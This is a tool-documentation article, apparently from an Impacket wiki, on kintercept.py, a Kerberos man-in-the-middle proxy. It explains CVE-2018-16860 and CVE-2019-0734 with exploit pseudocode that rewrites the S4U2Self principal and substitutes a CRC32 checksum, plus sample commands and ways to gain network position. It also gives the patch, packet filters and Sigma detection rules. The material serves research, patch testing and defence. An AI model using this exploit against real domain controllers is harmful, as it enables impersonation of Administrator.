

title: "kintercept.py"
script: "examples/kintercept.py"
category: "Kerberos Attacks"
status: "Published"
protocols:
  - Kerberos
ms_specs:
  - MS-SFU
  - MS-KILE
ietf_specs:
  - RFC 4120
cves:
  - CVE-2018-16860
  - CVE-2019-0734
mitre_techniques:
  - T1557
  - T1558
auth_types:
  - none
tags:
  - impacket
  - impacket/examples
  - category/kerberos
  - status/published
  - protocol/kerberos
  - ms-spec/ms-sfu
  - ms-spec/ms-kile
  - technique/kerberos_mitm
  - technique/s4u2self
  - technique/checksum_substitution
  - technique/cve_research
  - cve/cve_2018_16860
  - cve/cve_2019_0734
  - mitre/T1557
  - mitre/T1558
aliases:
  - kintercept
  - impacket-kintercept


# kintercept.py

> **One line summary:** TCP stream interceptor built for one purpose: Kerberos traffic that listens on a local port (default 88), proxies all packets to an upstream DC, and optionally rewrites the PA-FOR-USER padata name field in transit to demonstrate the S4U2Self unkeyed checksum vulnerabilities (CVE-2018-16860 affecting Heimdal KDC in Samba AD DC, and CVE-2019-0734 affecting Microsoft Windows KDC); the technique exploits a flaw where the KDC did not verify that the checksum algorithm protecting the impersonation target principal name was a keyed checksum, allowing an attacker positioned as a machine in the middle with network position to substitute the target principal name and replace the checksum with an unkeyed CRC32 which requires no prior knowledge to compute, producing a valid S4U2Self ticket for the substituted principal (e.g. Administrator) when the original request was for a normal user; written by Isaac Boukris (`@iboukris`) in 2019, MIT Licensed, with credit to an earlier ancestor by `@MrAnde7son` from 2017 for the base TCP proxy structure; Boukris reported CVE-2018-16860 jointly with Andrew Bartlett of the Samba Team and Catalyst and provided the Samba patches; **completes Kerberos Attacks at 8 of 9 articles (89% complete, one short utility away from full closure)**; the article is the definitive reference for the unkeyed checksum bug class and its research tooling.

| Field | Value |
|:---|:---|
| Script | `examples/kintercept.py` |
| Category | Kerberos Attacks |
| Status | Published |
| Author | Isaac Boukris (`@iboukris`), MIT Licensed, Copyright 2019. Earlier ancestor by `@MrAnde7son` (2017). |
| Primary protocol | Kerberos (TCP 88) |
| Primary Microsoft specifications | `[MS-SFU]` Service for User Protocol, `[MS-KILE]` Kerberos Protocol Extensions |
| Relevant IETF references | RFC 4120 Kerberos V5 |
| CVEs | CVE-2018-16860 (Samba Heimdal KDC), CVE-2019-0734 (Microsoft Windows KDC) |
| MITRE ATT&CK techniques | T1557 Adversary-in-the-Middle, T1558 Steal or Forge Kerberos Tickets |
| Authentication types supported | None (pure packet proxy) |
| Impacket module dependencies | `krb5.asn1.TGS_REQ`, `TGS_REP`, `PA_FOR_USER_ENC`, `krb5.crypto.Cksumtype`, `binascii.crc32`, standard `asyncore` for the TCP proxy |


## Prerequisites

This article builds on:

- [`getPac.py`](getPac.md) for S4U2Self + U2U mechanics, PAC retrieval, and the PA-FOR-USER padata structure. getPac.py is the closest sibling article; both use S4U2Self primitives but toward different ends (legitimate PAC retrieval vs tampering at the protocol level).
- [`getST.py`](getST.md) for the broader S4U2Self and S4U2Proxy workflow.
- [`ticketer.py`](ticketer.md) for PAC structure, KERB_VALIDATION_INFO, and the signed-PAC integrity model.
- [`keylistattack.py`](keylistattack.md) for another example of abusing Kerberos protocol extensions originally designed for legitimate purposes.
- [`00_Introduction_and_Architecture.md`](Introduction_and_Architecture.md) for the overall Impacket architecture.

Familiarity with Kerberos checksums (signed vs unsigned, keyed vs unkeyed) is essential; the article reviews what matters.


## What it does

`kintercept.py` is a purpose built TCP proxy that sits between a Kerberos client and a KDC, inspecting every packet in transit and optionally rewriting specific fields. The canonical invocation:

```text
$ kintercept.py --request-handler s4u2else:administrator 10.10.10.5
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Listening on 0.0.0.0:88
[*] Forwarding to 10.10.10.5:88
[*] Request handler: s4u2else (target: administrator)
[+] Connection from 10.10.10.20:54332
[+] TGS_REQ intercepted
[+] PA-FOR-USER found: original principal = alice
[+] Rewriting PA-FOR-USER principal -> administrator
[+] Replacing checksum with CRC32 (unkeyed)
[+] Forwarding modified TGS_REQ to KDC
[+] TGS_REP received, forwarding unchanged to client
```

The tool:

1. **Listens on TCP 88** (the Kerberos port) on the attacker's chosen interface.
2. **Accepts incoming connections** from clients attempting to reach the KDC.
3. **Forwards all packets upstream** to the real DC IP specified on the command line.
4. **Inspects TGS-REQ messages** for a PA-FOR-USER padata element.
5. **If the `--request-handler s4u2else:<target>` option is set**, rewrites the PA-FOR-USER principal name to `<target>` and replaces the existing checksum with an unkeyed CRC32 value.
6. **Forwards the modified packet to the KDC** and the response back to the client unchanged.

The deployment model requires an attacker who can position this proxy between the victim client and the real KDC. Common setups:

- **ARP poisoning** on a LAN segment, directing the victim's Kerberos traffic to the attacker's host.
- **Rogue DHCP / mitm6** pushing an attacker-controlled route for the DC's IP.
- **Port forwarding** on a compromised router or firewall appliance.
- **DNS poisoning** resolving the KDC's hostname to the attacker's IP.
- **Compromised host in the path**, running kintercept.py with iptables rules redirecting port 88 traffic.

None of these are provided by kintercept.py itself. The tool is the protocol manipulation layer; network position is the operator's problem.

### The specific vulnerabilities

CVE-2018-16860 (Samba AD DC / Heimdal KDC) and CVE-2019-0734 (Microsoft Windows KDC) are the same bug class in different implementations. Both allowed:

- An attacker with MITM position against an S4U2Self flow from client to KDC
- To modify the PA-FOR-USER padata's principal name field
- And substitute the accompanying checksum with a simple CRC32 value
- Which the KDC accepted because it did not verify the checksum algorithm was keyed

Result: a server using S4U2Self to obtain a ticket for user `alice` could be tricked into obtaining a ticket for `administrator` instead, with `administrator`'s full PAC. If the server then used S4U2Proxy to delegate to a backend service, the attacker's modified ticket granted access as Administrator.

kintercept.py's `s4u2else` handler is the working demonstration of this exact primitive. Run it to test whether a KDC is patched (unpatched KDCs accept the modified ticket; patched KDCs reject with `KRB5KRB_AP_ERR_INAPP_CKSUM`).


## Why it exists

Isaac Boukris wrote kintercept.py in 2019 as both a demonstration tool for the vulnerabilities he and Andrew Bartlett jointly discovered AND as a regression testing utility for KDC implementations. Three distinct use cases:

- **Vulnerability demonstration.** Before the fixes landed, the tool showed the flaw working end to end against vulnerable Heimdal and Windows KDCs. After the fixes, the tool became a regression test verifying the patches held.
- **Research on the PA-FOR-USER checksum layer.** The tool exposes the exact manipulation at the byte level needed to exploit the bug, making it an ideal learning artifact for anyone studying Kerberos attacks at the protocol level.
- **Platform for other Kerberos MITM research.** The script is structured as a generic TCP Kerberos proxy with pluggable request/response handlers. The `s4u2else` handler is the shipped example; operators researching other Kerberos modifications can add handlers without rewriting the proxy base.

Alberto Solino (Impacket maintainer) merged the script into Impacket with Boukris's MIT license preserved. The tool lives in Impacket as a reference implementation for both the specific vulnerabilities and the broader class of Kerberos proxy research.

The tool's continued existence in Impacket after the CVEs were patched is intentional. Vulnerability research tools that demonstrate specific flaws have ongoing value as educational artifacts and as infrastructure for future research in the same protocol area.


## Kerberos checksum theory

Understanding the vulnerability requires understanding what Kerberos checksums are, what "keyed" means, and why it matters. This section covers the minimum needed.

### The Kerberos checksum concept

Kerberos messages carry various integrity checks in the form of checksums. The `[MS-KILE]` and RFC 4120 specifications define several checksum types identified by numeric cksumtype values:

| Cksumtype | Name | Keyed? | Notes |
|:---|:---|||
| 1 | CRC32 | No | Legacy, cryptographically insecure. |
| 2 | rsa-md4 | No | Legacy. |
| 3 | rsa-md4-des | Yes | Keyed variant of MD4. |
| 4 | des-mac | Yes | DES-based MAC. |
| 7 | rsa-md5 | No | Legacy. |
| 8 | rsa-md5-des | Yes | Keyed MD5 for DES. |
| 12 | rsa-md5-des3 | Yes | Triple DES variant. |
| 14 | sha1 | No | Legacy, unkeyed SHA-1. |
| 15 | hmac-sha1-des3-kd | Yes | Keyed SHA-1 for DES3. |
| 16 | hmac-sha1-96-aes128 | Yes | Keyed SHA-1 for AES-128. |
| 17 | hmac-sha1-96-aes256 | Yes | Keyed SHA-1 for AES-256. |
| -138 | hmac-md5 | Yes | Microsoft RC4 HMAC. |

The critical distinction is **keyed** vs **unkeyed**:

- **Keyed checksums** require knowledge of a secret key to compute. The HMAC family (hmac-sha1, hmac-md5) falls here. An attacker without the key cannot produce a valid checksum.
- **Unkeyed checksums** are pure hash functions with no secret input. CRC32, plain SHA-1, plain MD5, plain MD4. Anyone can compute them over any data.

### What the checksum protects in S4U2Self

The PA-FOR-USER padata in an S4U2Self TGS-REQ has this structure (simplified):

```text
PA-FOR-USER ::= SEQUENCE {
    userName    [0] PrincipalName      -- the impersonation target
    userRealm   [1] Realm
    cksum       [2] Checksum           -- integrity check over userName + userRealm + ...
    auth-package [3] GeneralString    -- "Kerberos" for MS-KILE
}
```

The checksum's purpose is to prove that the service requesting the S4U2Self ticket chose the target name itself, and that the name was not modified in transit. Microsoft specified this checksum precisely to prevent the kind of attack kintercept.py demonstrates.

The KDC's duty when processing PA-FOR-USER is:

1. Verify the requester's TGT signature (standard TGS-REQ validation).
2. Verify the PA-FOR-USER checksum is valid.
3. Verify the checksum was produced with a keyed algorithm using a key derivable from the TGT's session key.

CVE-2018-16860 / CVE-2019-0734 was step 3 being skipped. The KDCs verified the checksum's byte value matched the userName + userRealm data, but did NOT verify that the cksumtype was in the keyed family. An unkeyed CRC32 passed validation as long as the byte math worked.

### Why this allows principal substitution

Without the keyed check, an MITM attacker can:

1. Intercept the S4U2Self TGS-REQ from the victim service.
2. Modify the PA-FOR-USER `userName` field to the desired target (e.g. `administrator`).
3. Recompute the CRC32 checksum over the new data (trivial; no key needed).
4. Set the cksumtype to 1 (CRC32, unkeyed).
5. Replace the checksum bytes with the newly computed CRC32.
6. Forward the modified packet to the KDC.
7. KDC validates successfully (byte math matches), issues an S4U2Self ticket for `administrator`.
8. Attacker receives the ticket in the TGS-REP, which the attacker proxies back to the victim.

The victim now holds a ticket containing `administrator`'s PAC, obtained via a TGS-REQ they made for `alice`. The victim service, not being malicious but having been manipulated at the network layer, will use that ticket to access backend resources as `administrator`.

### The patch

The fix is simple: the KDC must verify `krb5_checksum_is_keyed(cksumtype)` and reject with `KRB5KRB_AP_ERR_INAPP_CKSUM` (error code 50) if the check fails. The Heimdal patch is seven lines:

```c
if (!krb5_checksum_is_keyed(context, self.cksum.cksumtype)) {
    free_PA_S4U2Self(&self);
    kdc_log(context, config, 0, "Reject PA-S4U2Self with unkeyed checksum");
    ret = KRB5KRB_AP_ERR_INAPP_CKSUM;
    goto out;
}
```

Microsoft's Windows KDC fix (MS19-0734) is analogous, pushed in May 2019's Patch Tuesday. Samba shipped 4.8.12, 4.9.8, and 4.10.3 as security releases.

### The specific exploit scenarios

The Samba advisory documents two concrete exploit paths:

1. **S4U2Self to any keytab service.** A web service with OAuth/SAML authentication uses S4U2Self to obtain Kerberos service tickets for backend access. Examples include AFS services via `afs/cell@REALM`. The attacker's principal substitution grants them the PAC of any user the KDC will issue tickets for, including Administrator. Organizations using Heimdal-derived KDCs (Samba AD DC, FreeBSD Heimdal, etc.) were vulnerable.
2. **S4U2Self + S4U2Proxy to backend services.** A server authenticating users via X509 certificates uses S4U2Self to get tickets for local authorization, then S4U2Proxy to reach backend services. The attacker's substitution propagates through the chain, granting elevated access to backend services via the constrained delegation path.

The vulnerability has been described as requiring "MITM position plus a server using S4U2Self in a vulnerable pattern," which limits practical exploitation to specific deployments. Still, environments matching the profile (certain Samba AD DC configurations, certain Windows KDC configurations with MFA/SSO fronting backend Kerberos services) were at high risk before patching.


## How the tool works internally

The script is about 200 lines. Clean, focused, commented well.

### Imports

```python
import struct, socket, argparse, asyncore
from binascii import crc32
from pyasn1.codec.der import decoder, encoder
from pyasn1.type.univ import noValue
from impacket import version
from impacket.krb5 import constants
from impacket.krb5.crypto import Cksumtype
from impacket.krb5.asn1 import TGS_REQ, TGS_REP, seq_set, PA_FOR_USER_ENC
```

Notable:

- `asyncore` is Python's socket framework driven by events, used for the async TCP proxy. (Impacket still uses asyncore in several examples even though it was deprecated in Python 3.12.)
- `binascii.crc32` produces the unkeyed CRC32 that the exploit substitutes in place of the legitimate keyed checksum.
- `PA_FOR_USER_ENC` is the ASN.1 type for decoding and modifying the padata.

### Argument parsing

```python
parser.add_argument('dc_address', help='Upstream DC IP address')
parser.add_argument('--request-handler', help='Handler:arg syntax, e.g. "s4u2else:administrator"')
parser.add_argument('--reply-handler', help='Similar for modifying KDC responses')
parser.add_argument('-l', '--listen-address', default='0.0.0.0')
parser.add_argument('-p', '--listen-port', type=int, default=88)
```

Minimal. Target DC IP is the only required positional. Handlers are optional (without them, the tool is a pure transparent proxy).

### Proxy architecture

The script defines two asyncore classes:

- **Listener**: binds to the listen port, accepts incoming connections, spawns a Forwarder per connection.
- **Forwarder**: maintains two socket pairs (one on the client side and one upstream), shuttles bytes between them, applies any configured handlers to the packet contents.

Asyncore's event loop drives the whole thing. Each Forwarder reads from one side, optionally modifies, writes to the other side.

### TCP Kerberos framing

Kerberos over TCP uses a length prefix of 4 bytes in big endian order before each Kerberos message. The Forwarder reads:

1. 4 bytes of length.
2. That many bytes of Kerberos payload.
3. Attempts to ASN.1-decode the payload as TGS_REQ (for traffic from client to DC) or TGS_REP (for traffic from DC to client).
4. If decoding succeeds and the message matches a configured handler's criteria, applies the handler.
5. Re-encodes and forwards.

Non-TGS messages (AS-REQ, AS-REP, errors, etc.) pass through unchanged.

### The s4u2else handler

The critical handler. Pseudocode:

```python
def s4u2else_handler(tgs_req_decoded, target_name):
    # Find the PA-FOR-USER padata element
    for padata in tgs_req_decoded['padata']:
        if padata['padata-type'] == 129:  # PA-FOR-USER
            # Decode the PA-FOR-USER-ENC inside
            pa_for_user = decoder.decode(
                padata['padata-value'],
                asn1Spec=PA_FOR_USER_ENC()
            )[0]
            
            # Rewrite the principal name
            original_name = str(pa_for_user['userName']['name-string'][0])
            pa_for_user['userName']['name-string'][0] = target_name
            
            # Compute CRC32 over the modified userName + userRealm data
            name_realm_data = build_name_realm_bytes(pa_for_user)
            new_crc = crc32(name_realm_data) & 0xffffffff
            
            # Replace the checksum
            pa_for_user['cksum']['cksumtype'] = Cksumtype.CRC32  # 1
            pa_for_user['cksum']['checksum'] = struct.pack('<I', new_crc)
            
            # Re-encode and put back into the TGS_REQ
            padata['padata-value'] = encoder.encode(pa_for_user)
            
            print(f'[+] Rewrote PA-FOR-USER: {original_name} -> {target_name}')
            return
```

This is the exploitation at the byte level of CVE-2018-16860 / CVE-2019-0734 in its entirety. Everything else is plumbing.

### What the tool does NOT do

- Does NOT forge or sign tickets. The exploit produces a legitimately-issued ticket from the KDC (which the KDC considers legitimate because it was fooled). The forgery is the KDC's; kintercept just tricks it.
- Does NOT decrypt Kerberos tickets. Tickets pass through as opaque bytes.
- Does NOT modify AS-REQ/AS-REP. Only TGS traffic is inspected.
- Does NOT implement other S4U attacks. Just the unkeyed checksum substitution.
- Does NOT provide MITM positioning. The operator arranges the redirection separately.


## Authentication options

None. The tool is a passive proxy. It has no credentials, performs no authentication of its own. Kerberos credentials belong to the client that is being proxied.


## Practical usage

### Test if a KDC is patched (benign testing)

```bash
# On an attacker host in the path between a test client and DC
kintercept.py --request-handler s4u2else:administrator 10.10.10.5
# Configure the test client to use the attacker host as KDC (e.g. /etc/krb5.conf override)
# Trigger an S4U2Self request from the client (e.g. running getST.py)
getST.py -impersonate alice -spn HTTP/web01.acme.local ACME.LOCAL/svc:Passw0rd!
# Observe the kintercept.py output:
# - If the KDC rewrites the principal successfully, it's vulnerable (unpatched).
# - If the KDC rejects with KRB5KRB_AP_ERR_INAPP_CKSUM (error 50), it's patched.
```

Use case: verifying patch deployment status in a hardening audit.

### Transparent Kerberos proxy (no rewriting)

```bash
kintercept.py 10.10.10.5
# Just proxies all Kerberos traffic unchanged. Useful for capture/analysis.
```

Use case: packet capture with protocol decoding for research.

### Custom handler development

The script is structured so that new handlers can be added with minimal effort. Adding a new handler typically means:

1. Add a new argparse value for `--request-handler` or `--reply-handler`.
2. Implement a function that takes a decoded TGS_REQ or TGS_REP and modifies it.
3. Wire it into the dispatch in the Forwarder class.

Research applications:

- Experimenting with PAC manipulation in transit.
- Testing KDC behavior with malformed TGS-REQ fields.
- Exploring other padata types for research purposes.

### Key flags

| Flag | Meaning |
|:---|:---|
| `dc_address` (positional) | Upstream DC IP to forward to. |
| `--request-handler <handler:arg>` | Handler applied to requests from client to KDC. Built-in: `s4u2else:<target-principal>`. |
| `--reply-handler <handler:arg>` | Handler applied to KDC-to-client responses. |
| `-l`, `--listen-address <ip>` | Listen interface. Default: 0.0.0.0. |
| `-p`, `--listen-port <port>` | Listen port. Default: 88. |

The flag surface is intentionally small. The tool's value is in the specific handler it ships, not in flexibility.


## What it looks like on the wire

### Original TGS-REQ (what the client sent)

```text
TCP from victim client to kintercept:88
Length prefix: 0x00000500
Kerberos TGS_REQ:
  pvno = 5
  msg-type = 12 (TGS_REQ)
  padata:
    PA-TGS-REQ (type 1) wrapping AP-REQ for victim's TGT
    PA-FOR-USER (type 129):
      userName = alice
      userRealm = ACME.LOCAL
      cksum: cksumtype = 18 (hmac-sha1-96-aes256), value = <32 bytes of HMAC>
      auth-package = "Kerberos"
  req-body:
    sname = HTTP/web01.acme.local
    ...
```

### Modified TGS-REQ (what kintercept forwards)

```text
TCP from kintercept to real DC:88
Length prefix: 0x000004EE  (slightly shorter; checksum 32->4 bytes)
Kerberos TGS_REQ:
  pvno = 5
  msg-type = 12 (TGS_REQ)
  padata:
    PA-TGS-REQ (unchanged)
    PA-FOR-USER:
      userName = administrator     <-- MODIFIED
      userRealm = ACME.LOCAL
      cksum: cksumtype = 1 (CRC32), value = <4 bytes CRC32>  <-- MODIFIED
      auth-package = "Kerberos"
  req-body: (unchanged)
```

Two visible changes: the `userName` field and the `cksum` structure (type + value). A defender with protocol analysis aware of Kerberos can see both modifications.

### Response flow

```text
TCP from real DC to kintercept: TGS_REP for administrator
TCP from kintercept to victim client: same TGS_REP (forwarded unchanged)
```

The TGS_REP is not modified. Whatever the KDC issued, the client receives.

### Wireshark filters

```text
kerberos.msg_type == 12 and kerberos.padata-type == 129    # TGS-REQ with PA-FOR-USER
kerberos.cksumtype == 1                                    # CRC32 checksum (unkeyed, suspicious)
kerberos                                                   # all Kerberos
```

The `kerberos.cksumtype == 1` filter is particularly useful: modern Kerberos implementations essentially never use CRC32 legitimately. Seeing it in a TGS-REQ PA-FOR-USER is the fingerprint of this attack.


## What it looks like in logs

### Event 4769 (service ticket request)

The KDC logs a 4769 event for the TGS-REQ that succeeded. Important fields:

- **Account Name**: the requester service (which generated the original S4U2Self request).
- **Service Name**: the target backend service (sname from the TGS-REQ).
- **Ticket Encryption Type**: normal Kerberos encryption type of the issued ticket.

The log does NOT record the PA-FOR-USER principal or the checksum type. From the log perspective, the DC issued a normal S4U2Self ticket. There is no direct log evidence that a substitution occurred on that side.

### KDC-side errors after patching

Once patched, the KDC rejects the modified request. On Windows, this generates an Event ID related to Kerberos error responses. On Samba/Heimdal, the KDC log shows:

```text
Reject PA-S4U2Self with unkeyed checksum
```

with the specific error `KRB5KRB_AP_ERR_INAPP_CKSUM` (50). This log is the patched KDC's defense signal.

### Network layer detection

Because the attack is MITM, network traffic analysis is the primary detection vector:

- **Kerberos traffic to unexpected destinations.** A client whose Kerberos traffic suddenly flows to a host that isn't the real DC.
- **CRC32 cksumtype in PA-FOR-USER.** Essentially pathognomonic for this attack.
- **ARP anomalies** on the LAN indicating redirection.
- **DNS responses with short TTL** for DC hostnames from sources that are not authoritative.

### Starter Sigma rules

```yaml
title: Kerberos TGS-REQ PA-FOR-USER with CRC32 Checksum (CVE-2018-16860/CVE-2019-0734)
logsource:
  category: network
  product: zeek
  service: kerberos
detection:
  selection:
    msg_type: 12
    padata_type: 129
    cksum_type: 1
  condition: selection
level: critical
```

Very clean detection. Requires network Kerberos visibility (Zeek with appropriate analyzer, MDI, etc.). If this fires at all, it's either active exploitation or a regression test; legitimate traffic does not use CRC32 for PA-FOR-USER checksums in any modern deployment.

```yaml
title: Kerberos KDC Rejection of Unkeyed Checksum
logsource:
  product: windows
  service: system
detection:
  selection:
    provider: Microsoft-Windows-Kerberos-Key-Distribution-Center
    event_id_related_to: kerberos_error
    error_code: 50
  condition: selection
level: high
```

Detection rule for use after patching. Catches the KDC successfully rejecting exploit attempts. Indicates active attack against a patched KDC.

```yaml
title: Unexpected Kerberos Traffic Destination
logsource:
  category: network
detection:
  selection:
    dst_port: 88
  filter_known_dcs:
    dst_ip:
      - 'dc01_ip'
      - 'dc02_ip'
      - 'rodc01_ip'
  condition: selection and not filter_known_dcs
level: medium
```

Broader MITM detection. Kerberos traffic to any host not on the known DC list indicates potential redirection. High false positive surface without tuning.


## Detection and defense

### Detection opportunities

- **Patch and monitor rejection events.** The best defense is the patch itself. Once applied, attempted exploitation generates KDC rejection events that are easy to detect.
- **Detection at the network layer for CRC32.** The `cksumtype=1` in PA-FOR-USER is distinctive. Zeek, MDI, or custom IDS rules can detect this cheaply.
- **MITM infrastructure detection.** ARP monitoring, DNS monitoring for DC hostname resolution, Kerberos destination IP anomalies.
- **Endpoint detection of Kerberos client behavior.** If Kerberos suddenly goes to an unexpected port or IP from a server that normally only talks to known DCs, that's a signal.

### Preventive controls

- **Patch.** CVE-2018-16860 and CVE-2019-0734 are ancient by 2026 standards (2019 vintage). Any modern Windows KDC or Samba AD DC is patched. If an environment still has unpatched systems, this is one of many issues.
- **Network isolation of KDCs.** DCs should be on trusted network segments with restricted client paths. MITM is hardest when the attacker cannot reach the packet path.
- **Enforce Kerberos armoring (FAST).** FAST encapsulates some Kerberos exchanges in an armoring key established beforehand, making MITM substantially harder. Not all environments have FAST enabled by default.
- **LDAP channel binding and signing.** Not directly related to this CVE but part of the broader baseline for hardening services adjacent to Kerberos.

### What kintercept.py does NOT do

- Does NOT provide MITM positioning. The operator must arrange the redirection separately.
- Does NOT bypass patched KDCs. Patched KDCs reject the modified TGS-REQ with KRB5KRB_AP_ERR_INAPP_CKSUM.
- Does NOT attack AS-REQ, user-level authentication, TGS-REQ for normal services without PA-FOR-USER, or any other Kerberos message type beyond the specific S4U2Self abuse.
- Does NOT decrypt, forge, or create tickets.
- Does NOT work against Azure AD, cloud KDCs, or Kerberos over HTTPS flows unless the MITM can reach them (typically not possible).

### The historical significance

Even though both CVEs are long patched, the tool's value as a research artifact remains:

- **Teaching tool for attacks at the protocol level.** Students and researchers can run the tool against a deliberately vulnerable Samba/Heimdal instance and see exactly what modified bytes look like on the wire.
- **Regression test infrastructure.** When testing KDC implementations or forks, running kintercept.py is a way to confirm the patch still holds.
- **Pattern for further research.** Other Kerberos bugs at the protocol level have similar shapes (unverified fields, weak integrity checks, logic errors in protocol flow). kintercept.py's proxy architecture is a starting template for new research.


## Related tools and attack chains

`kintercept.py` **completes Kerberos Attacks at 8 of 9 articles (89% complete)**. With `ticketConverter.py` already closed in Session 41, only short utility articles would remain before full category closure.

### Related Impacket tools

- [`getST.py`](getST.md) is the natural tool on the client side for triggering S4U2Self requests. In a test scenario, run getST.py against a victim account while kintercept intercepts the traffic.
- [`getPac.py`](getPac.md) uses S4U2Self + U2U (legitimately) for PAC retrieval. Shares the PA-FOR-USER padata with kintercept's target but does not manipulate it.
- [`ticketer.py`](ticketer.md) produces forged tickets offline. Different technique from kintercept's legitimate ticket acquisition via MITM with modified contents.
- [`keylistattack.py`](keylistattack.md) is another Kerberos protocol abuse article. Both articles share the theme of "KDC feature turned attack primitive."
- [`ntlmrelayx.py`](../06_relay_attacks/ntlmrelayx.md) is the MITM relay tool on the NTLM side. Different protocol, similar architecture (intercept credentials, abuse protocol flow). Reading both gives a complete view of the MITM toolkit in Impacket.

### External alternatives

- **Rubeus** at `https://github.com/GhostPack/Rubeus`. Has extensive S4U capabilities on Windows but does not implement this specific MITM attack; it is a Kerberos tool run on the client side rather than a proxy.
- **mitm6** by dirkjanm at `https://github.com/dirkjanm/mitm6`. IPv6-based MITM toolkit. Complementary to kintercept when the MITM positioning needs to be established first.
- **krbrelayx** by dirkjanm at `https://github.com/dirkjanm/krbrelayx`. Kerberos relay toolkit with unconstrained delegation abuse. Broader Kerberos attack surface; complementary to kintercept.
- **scapy** with Kerberos dissectors. General-purpose packet manipulation. kintercept is much more focused and operationally usable for its specific purpose.
- **Custom MITM proxies** written for specific CVEs. kintercept was one of the first public, and remains a good reference.

### The attack chain context



The chain illuminates why the vulnerability was impactful even though it required MITM: the attack didn't need the attacker to log in anywhere, didn't need any credentials beyond network position, and produced a fully valid Kerberos ticket that passed all downstream validation.

### Comparative Kerberos MITM attacks

| Attack | Required position | Output | Current status |
|:---|:---|||
| kintercept s4u2else (CVE-2018-16860 / CVE-2019-0734) | MITM on S4U2Self traffic | S4U2Self ticket for arbitrary principal | Patched 2019 |
| Kerberos relay (krbrelayx) | MITM + trigger auth | Relayed Kerberos session | Partially mitigated, depends on environment |
| Kerberos unconstrained delegation harvest | Compromised account with unconstrained delegation | TGTs from authenticating users | Still active, depends on config |
| mitm6 + ntlmrelayx to LDAP | IPv6 MITM position | LDAP authenticated session, can modify AD | Partially mitigated by channel binding |

kintercept's target is the most specific to the protocol and closed by patching of these; the others remain active concerns depending on environment.


## Further reading

- **CVE-2018-16860 advisory** at `https://www.samba.org/samba/security/CVE-2018-16860.html`. Samba's detailed writeup of the flaw, including the two exploit scenarios. Authored by Andrew Bartlett with Isaac Boukris.
- **CVE-2019-0734 advisory** at Microsoft's Security Response Center. Windows KDC equivalent.
- **Heimdal patch commit** at `https://github.com/heimdal/heimdal/commit/c6257cc2c842c0faaeb4ef34e33890ee88c4cbba`. The seven-line fix.
- **`[MS-SFU]`: Kerberos Protocol Extensions: Service for User and Constrained Delegation Protocol** at `https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/`. Canonical reference for PA-FOR-USER and S4U2Self.
- **`[MS-KILE]`: Kerberos Protocol Extensions** at `https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-kile/`. Kerberos checksum types and their usage.
- **RFC 4120: Kerberos Network Authentication Service (V5)**. Section on checksums and their role.
- **Impacket kintercept.py source** at `https://github.com/fortra/impacket/blob/master/examples/kintercept.py`. About 200 lines, well commented.
- **Isaac Boukris's earlier Kerberos research** on the Samba wiki and mailing list archives. Context for the kind of research that produced this tool.
- **Ubuntu security notices USN-3976-1 and USN-3976-2** for the Samba patch deployment timeline.
- **MITRE ATT&CK T1557 Adversary-in-the-Middle** at `https://attack.mitre.org/techniques/T1557/`. Parent technique.
- **MITRE ATT&CK T1558 Steal or Forge Kerberos Tickets** at `https://attack.mitre.org/techniques/T1558/`. Parent technique for Kerberos attacks.

If you want to internalize this tool and the broader lesson about Kerberos attacks at the protocol level, the best exercise has three parts. First, set up a deliberately vulnerable Samba AD DC (an older version before the patch, ideally in an isolated lab) and run kintercept.py between a test client and the DC. Trigger an S4U2Self request with getST.py, observe kintercept rewriting the principal, confirm the victim receives a ticket for Administrator. This is the "working exploit" experience. Second, patch the Samba DC to a current version and repeat. Observe the KDC rejecting the modified request with the expected error. This is the "patch works" experience. Third, read Boukris's original discussion of the bug and the patches he and Bartlett produced. Understand why the check was missing, why adding it closed the issue, and what the broader class of similar bugs might look like in other Kerberos protocol extensions. The exercise illuminates both the specific vulnerability and the general pattern: Kerberos extensions added for narrow purposes sometimes make implicit assumptions (like "of course the checksum is keyed") that were not codified into the implementation. Checking those assumptions is where future research at the protocol level lives.
